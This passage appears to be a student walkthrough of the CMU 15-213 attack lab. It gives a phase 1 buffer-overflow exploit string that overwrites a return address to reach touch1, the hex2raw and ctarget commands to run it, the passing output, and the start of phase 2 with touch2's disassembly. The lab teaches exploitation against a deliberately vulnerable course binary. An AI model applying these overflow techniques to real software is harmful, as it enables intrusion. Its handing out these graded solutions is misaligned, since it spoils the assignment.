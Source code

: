 phase1.txt
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
64 19 40 00 00 00 00 00 
```

now we need to take this file and run it through the program hex2raw which will generate raw exploit strings, and then run the raw file. this can be done through command below

```
linux> ./hex2raw < phase1.txt > 2018080106.ctarget.l1
linux> ./ctarget -q -i 2018080106.ctarget.l1
```

or you can run it in one line

```
linux> ./hex2raw < phase1.txt > 2018080106.ctarget.l1; ./ctarget -q -i 2018080106.ctarget.l1
```

if its correct, you should get somethings similar to below
```
Cookie: 0x117fd061
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 64 19 40 00 00 00 00 00
```

## PHASE 2 
phase 2 involves injecting a small amount of code as part of your exploit string while making it look like you passed the cookie as an argument to touch2

search for touch2 in our ctarget dump  (right below touch1), it looks something like this

ctarget.d
```
000000000040198f <touch2>:
  40198f:	48 83 ec 08          	sub    $0x8,%rsp
  401993:	89 fa                	mov    %edi,%edx
  401995:	c7 05 7d 3b 20 00 02 	movl   $0x2,0x203b7d(%rip)        # 60551c <vlevel>
  40199c:	00 00 00 
  40199f:	39 3d 7f 3b 20 00    	cmp    %edi,0x203b7f(%rip)        # 605524 <cookie>
  4019a5:	75 20                	jne    4019c7 <touch2+0x38>
  4019a7:	be b8 32 40 00       	mov    $0x4032b8,%esi
  4019ac:	bf 01 00 00 00       	mov    $0x1,%edi
  4019b1:	b8 00 00 00 00       	mov    $0x0,%eax
  4019b6:	e8 45 f4 ff ff       	callq  400e00 <__printf_chk@plt>
  4019bb:	bf 02 00 00 00       	mov    $0x2,%edi
  4019c0:	e8 57 04 00 00       	callq  401e1c <validate>
  4019c5:	eb 1e                	jmp    4019e5 <touch2+0x56>
  4019c7:	be e0 32 40 00       	mov    $0x4032e0,%esi
  4019cc:	bf 01 00 00 00       	mov    $0x1,%edi
  4019d1:	b8 00 00 00 00       	mov    $0x0,%eax
  4019d6:	e8 25 f4 ff ff       	callq  400e00 <__printf_chk@plt>
  4019db:	bf 02 00 00 00       	mov    $0x2,%edi
  4019e0:	e8 f9 04 00 00       	callq  401ede <fail>
```